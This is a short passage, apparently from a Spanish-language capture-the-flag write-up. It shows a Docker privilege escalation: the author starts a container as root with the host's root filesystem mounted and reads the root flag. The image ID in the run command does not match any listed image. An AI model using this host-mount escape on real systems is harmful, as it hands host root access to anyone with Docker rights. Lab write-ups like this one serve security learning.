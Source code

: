 Ahora puedo crear un contenedor que monte la raiz del sistema host y ver la segunda flag

```null
/ # docker images
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
localstack/localstack-full   0.12.6              7085b5de9f7c        23 months ago       888MB
localstack/localstack-full   <none>              0601ea177088        2 years ago         882MB
lambci/lambda                nodejs12.x          22a4ada8399c        2 years ago         390MB
lambci/lambda                nodejs10.x          db93be728e7b        2 years ago         385MB
lambci/lambda                nodejs8.10          5754fee26e6e        2 years ago         813MB
```

```null
/ # docker run -v /:/mnt --entrypoint bash -u root -it bfe18d661174
```

Ejecuto una ```bash en el contedor y puedo ver la segunda flag

```null
/ # docker exec -it 35ab7d510ed0 bash
bash-5.0# cat /mnt/root/root.txt 
6cbba531ad385be20dabdbd4c2ae30c2
```